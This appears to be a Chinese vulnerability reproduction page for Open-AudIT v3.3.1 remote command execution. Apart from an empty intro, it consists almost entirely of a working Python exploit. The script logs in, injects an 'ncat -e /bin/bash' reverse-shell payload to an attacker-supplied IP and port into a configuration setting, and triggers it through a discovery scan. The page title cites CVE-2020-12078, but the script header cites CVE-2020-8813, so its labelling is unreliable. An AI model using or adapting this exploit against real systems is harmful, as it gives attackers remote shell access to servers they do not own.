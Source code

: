 （CVE-2020-12078）Open-AudIT v3.3.1 远程命令执行漏洞
====================================================

一、漏洞简介
------------

二、漏洞影响
------------

Open-AudIT v3.3.1

三、复现过程
------------

![](resource/(CVE-2020-12078)Open-AudITv3.3.1远程命令执行漏洞/media/rId24.png)

    OpenAudIT-postauth-rce.py
    #!/usr/bin/python3

    # Exploit Title: Open-AudIT Professional v3.3.1 Remote Code Execution
    # Date: 22/04/2020
    # Exploit Author: Askar (@mohammadaskar2)
    # CVE: CVE-2020-8813
    # Vendor Homepage: https://opmantek.com/
    # Version: v3.3.1
    # Tested on: Ubuntu 18.04 / PHP 7.2.24

    import requests
    import sys
    import warnings
    import random
    import string
    from bs4 import BeautifulSoup
    from urllib.parse import quote

    warnings.filterwarnings("ignore", category=UserWarning, module='bs4')


    if len(sys.argv) != 6:
        print("[~] Usage : ./openaudit-exploit.py url username password ip port")
        exit()

    url = sys.argv[1]
    username = sys.argv[2]
    password = sys.argv[3]
    ip = sys.argv[4]
    port = sys.argv[5]

    request = requests.session()

    def inject_payload():
        configuration_path = url+"/en/omk/open-audit/configuration/90"
        data = 'data={"data":{"id":"90","type":"configuration","attributes":{"value":";ncat${IFS}-e${IFS}/bin/bash${IFS}%s${IFS}%s${IFS};"}}}' % (ip, port)
        request.patch(configuration_path, data)
        print("[+] Payload injected in settings")


    def start_discovery():
        discovery_path = url+"/en/omk/open-audit/discoveries/create"
        post_discovery_path = url+"/en/omk/open-audit/discoveries"
        scan_name = "".join([random.choice(string.ascii_uppercase) for i in range(10)])
        req = request.get(discovery_path)

        response = req.text
        soup = BeautifulSoup(response, "html5lib")
        token = soup.findAll('input')[5].get("value")
        buttons = soup.findAll("button")
        headers = {"Referer" : discovery_path}
        request_data = {
        "data[attributes][name]":scan_name,
        "data[attributes][other][subnet]":"10.10.10.1/24",
        "data[attributes][other][ad_server]":"",
        "data[attributes][other][ad_domain]":"",
        "submit":"",
        "data[type]":"discoveries",
        "data[access_token]":token,
        "data[attributes][complete]":"y",
        "data[attributes][org_id]":"1",
        "data[attributes][type]":"subnet",
        "data[attributes][devices_assigned_to_org]":"",
        "data[attributes][devices_assigned_to_location]":"",
        "data[attributes][other][nmap][discovery_scan_option_id]":"1",
        "data[attributes][other][nmap][ping]":"y",
        "data[attributes][other][nmap][service_version]":"n",
        "data[attributes][other][nmap][open|filtered]":"n",
        "data[attributes][other][nmap][filtered]":"n",
        "data[attributes][other][nmap][timing]":"4",
        "data[attributes][other][nmap][nmap_tcp_ports]":"0",
        "data[attributes][other][nmap][nmap_udp_ports]":"0",
        "data[attributes][other][nmap][tcp_ports]":"22,135,62078",
        "data[attributes][other][nmap][udp_ports]":"161",
        "data[attributes][other][nmap][timeout]":"",
        "data[attributes][other][nmap][exclude_tcp_ports]":"",
        "data[attributes][other][nmap][exclude_udp_ports]":"",
        "data[attributes][other][nmap][exclude_ip]":"",
        "data[attributes][other][nmap][ssh_ports]":"22",
        "data[attributes][other][match][match_dbus]":"",
        "data[attributes][other][match][match_fqdn]":"",
        "data[attributes][other][match][match_dns_fqdn]":"",
        "data[attributes][other][match][match_dns_hostname]":"",
        "data[attributes][other][match][match_hostname]":"",
        "data[attributes][other][match][match_hostname_dbus]":"",
        "data[attributes][other][match][match_hostname_serial]":"",
        "data[attributes][other][match][match_hostname_uuid]":"",
        "data[attributes][other][match][match_ip]":"",
        "data[attributes][other][match][match_ip_no_data]":"",
        "data[attributes][other][match][match_mac]":"",
        "data[attributes][other][match][match_mac_vmware]":"",
        "data[attributes][other][match][match_serial]":"",
        "data[attributes][other][match][match_serial_type]":"",
        "data[attributes][other][match][match_sysname]":"",
        "data[attributes][other][match][match_sysname_serial]":"",
        "data[attributes][other][match][match_uuid]":""

        }
        print("[+] Creating discovery ..")
        req = request.post(post_discovery_path, data=request_data, headers=headers, allow_redirects=False)
        disocvery_url = url + req.headers['Location'] + "/execute"
        print("[+] Triggering payload ..")
        print("[+] Check your nc ;)")
        request.get(disocvery_url)


    def login():
        login_info = {
        "redirect_url": "/en/omk/open-audit",
        "username": username,
        "password": password
        }
        login_request = request.post(url+"/en/omk/open-audit/login", login_info)
        login_text = login_request.text
        if "There was an error authenticating" in login_text:
            return False
        else:
            return True

    if login():
        print("[+] LoggedIn Successfully")
        inject_payload()
        start_discovery()
    else:
        print("[-] Cannot login!")
